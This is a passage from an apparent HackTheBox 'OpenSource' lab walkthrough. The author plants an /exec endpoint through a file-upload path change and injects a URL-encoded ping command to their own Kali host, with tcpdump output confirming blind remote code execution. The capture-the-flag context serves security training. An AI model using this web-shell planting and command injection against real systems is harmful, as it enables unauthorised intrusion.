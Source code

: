 Now change the path the file will be uploaded to:

![opensource-burp-change-path](/assets/images/2022-05-28-18-09-16.png)

We can't get any output from commands on the webpage, but we can point to our Kali. Let's try pinging ourselves first:

```sh
┌──(root㉿kali)-[~/htb/opensource]
└─#  tcpdump icmp -i tun0
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
```

Here we have a listener on Kali waiting for imcp packets. Back to the box and try to ping us with this which I've URL encoded:

```text
ping+-c+4+10.10.14.116
```

Use our new /exec function with the cmd parameter we created:

![opensource-ping-me](/assets/images/2022-05-28-18-17-31.png)

Ignore the error on the webpage. Looking back at Kali we see it worked:

```sh
┌──(root㉿kali)-[~/htb/opensource]
└─# tcpdump icmp -i tun0
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
18:16:59.874732 IP 10.10.11.164 > 10.10.14.116: ICMP echo request, id 95, seq 0, length 64
18:16:59.874764 IP 10.10.14.116 > 10.10.11.164: ICMP echo reply, id 95, seq 0, length 64
18:17:00.871273 IP 10.10.11.164 > 10.10.14.116: ICMP echo request, id 95, seq 1, length 64
18:17:00.871292 IP 10.10.14.116 > 10.10.11.164: ICMP echo reply, id 95, seq 1, length 64
18:17:01.871263 IP 10.10.11.164 > 10.10.14.116: ICMP echo request, id 95, seq 2, length 64
18:17:01.871278 IP 10.10.14.116 > 10.10.11.164: ICMP echo reply, id 95, seq 2, length 64
18:17:02.871875 IP 10.10.11.164 > 10.10.14.116: ICMP echo request, id 95, seq 3, length 64
18:17:02.871891 IP 10.10.14.116 > 10.10.11.164: ICMP echo reply, id 95, seq 3, length 64
```
